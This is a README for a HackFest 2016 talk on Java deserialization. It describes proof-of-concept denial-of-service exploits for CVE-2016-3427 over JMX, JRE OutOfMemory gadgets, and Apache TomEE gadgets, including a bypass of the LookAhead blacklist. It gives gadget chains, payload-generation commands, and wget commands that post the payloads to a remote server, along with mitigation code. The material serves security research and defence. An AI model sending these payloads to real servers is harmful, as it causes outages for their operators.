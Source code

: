 # Fixing the Java Serialization mess
Supporting source code for a [HackFest 2016 presentation](https://goo.gl/rOpF0u)

![Bonhomme Carnaval, Duke-style](bonhomme-duke.svg.png "Bonhomme Carnaval, Duke-style")

## Installation
```bash
mvn install
```

## Content

### POC for [CVE-2016-3427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427)
Class `com.salesforce.trust.s11n.exploit.JmxClient`

Tries to:

1. Connect to the provided JMX server using the *long* connection string syntax
2. Connect to the provided JMX server using the *RMI* connection string syntax.
  * Sends the provided user name and password as credentials.
  * Sends a [Malicious Set instance](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d) as credentials, in order to cause a Denial of Service attack on the JMX server. Only works when the server runs Java 8 u 77 (or earlier)
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JmxClient hostName registryPort jmxPort userName
```

### POC for Denial of Service attack
Class `com.salesforce.trust.s11n.exploit.JreOutOfMemory`

Throws `OutOfMemoryError` when deserializingin doctored instances of various well known classes
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JreOutOfMemory
```

### POC for Apache TomEE Denial of Service
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass`

Generates a 'regular' DOS gadget that can be used on older versions of [Apache TomEE](http://tomee.apache.org/apache-tomee.html) (before LookAhead validation was added, 1.7.3 or older)
#### Gadget chain: 
```
ObjectInputStream.readObject() 
  HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload:
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass regular
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee1.ser http://remote-server:8080/tomee/ejb
```

### POC for bypassing [LookAhead Mitigation](http://www.ibm.com/developerworks/library/se-lookahead/) in [Apache TomEE](http://tomee.apache.org/apache-tomee.html) version 1.7.4
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass` can also generate a different gadget that can bypass TomEE mitigation.
TomEE is secure by default, since everything is black-listed when you install it.
#### File `conf/system.properties`
Upon install, the file contains these 2 lines:
```
tomee.serialization.class.blacklist = *
# tomee.serialization.class.whitelist = my.package
```

To enable OpenEJB, we want to restrict the black list to known malicious classes, and we want to include our legitimate classes in the white list:
```
tomee.serialization.class.blacklist = java.util.HashSet
tomee.serialization.class.whitelist = bonhomme.Carnaval, java, org.apache
```

This configuration provides an adequate mitigation against the DOS attack however, it can be bypassed by this new gadget:

#### Gadget chain: 
```
ObjectInputStream.readObject()
  EventImpl.readObject()
    OwbCustomObjectInputStream.readObject()
      HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload (note the `bypass` flag):
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass bypass
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee2.ser http://remote-server:8080/tomee/ejb
```

### POC for LookAhead Method Blacklist
#### Input validation flow
![Flow chart](flow-chart.svg.png "Flow chart")
#### Code
Package `com.salesforce.trust.s11n.mitigation`
#### Usage:
```bash
mvn test
```
